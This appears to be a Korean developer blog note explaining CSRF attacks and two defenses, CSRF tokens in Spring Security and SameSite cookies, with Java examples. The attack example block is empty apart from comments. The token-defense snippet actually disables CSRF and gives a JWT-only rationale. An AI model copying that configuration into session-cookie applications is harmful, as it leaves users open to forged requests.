CSRF는 인증된 사용자의 브라우저를 이용하여, **_사용자가 의도하지 않은 요청을 서버에 전송_** 하는 공격 기법이다. <br/>
사용자가 로그인된 상태에서 공격자의 웹사이트를 방문하면, 공격자가 심어놓은 악의적인 코드가 자동으로 피해자의 브라우저에서 서버로 요청을 전송하여, 피해자의 권한으로 악영향을 미칠 수 있다. <br/>

**공격 예시**

피해자가 `bank.com`에 로그인된 상태에서 공격자의 사이트를 방문하면, 아래 HTML이 자동으로 피해자의 계정으로 송금 요청을 전송한다.
```html
<!-- 공격자 사이트에 심어놓은 코드 -->

<!-- 피해자의 브라우저가 bank.com 쿠키를 자동으로 포함하여 요청 전송 -->
```

**방어 방법1. CSRF Token**

서버가 요청마다 csrf 토큰을 생성하여 클라이언트에게 전달하고, 클라이언트는 이후 요청 시 해당 토큰을 함께 전송하도록 한다. <br/>
공격자의 사이트에서는 유효한 CSRF 토큰을 알 수 없기 때문에, 공격자가 피해자의 브라우저를 이용하여 악의적인 요청을 전송하더라도, 서버에서 해당 요청을 거부하게 된다. <br/>

```java
@Configuration
public class SecurityConfig {
    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        http
            // REST API + JWT 사용 시: 세션/쿠키 인증 미사용으로 CSRF 비활성화
            .csrf(csrf -> csrf.disable())
            // 폼 로그인 + 세션 쿠키 사용 시: CSRF 활성화 (기본값)
            // .csrf(Customizer.withDefaults())
            ;
        return http.build();
    }
}
```

**방어 방법2. SameSite 쿠키 설정**

SameSite 쿠키 설정을 통해, 브라우저가 다른 사이트에서의 요청 시 쿠키를 자동으로 포함하지 않도록 할 수 있다. <br/>
이는 CSRF 공격에서 피해자의 브라우저가 공격자의 사이트에서 서버로 요청을 전송하더라도, 쿠키가 포함되지 않기 때문에, 서버에서 해당 요청을 인증할 수 없게 되어 공격이 실패하게 된다. <br/>


```java
// 안전한 쿠키 설정 예시
ResponseCookie cookie = ResponseCookie.from("SESSION", sessionId)
        .sameSite("Strict")   // 동일 도메인 요청만 쿠키 전송 (CSRF 방어)
        .httpOnly(true)       // JavaScript 접근 차단 (XSS 방어)
        .secure(true)         // HTTPS에서만 전송        
        .maxAge(Duration.ofHours(1))
        .path("/")
        .build();
response.addHeader(HttpHeaders.SET_COOKIE, cookie.toString());
```


| SameSite 옵션 | 설명 |
|---|---|
| `Strict` | 동일 사이트에서의 요청에만 쿠키 전송 (가장 엄격) |
| `Lax` | 일부 GET 요청에 대해서는 쿠키 전송 허용 |
| `None` | 모든 요청에 대해 쿠키 전송 허용 (Secure 옵션과 함께 사용해야 함) |


> [환이의 개발일지 > Secure Coding 알아보기](https://drg2524.tistory.com/215)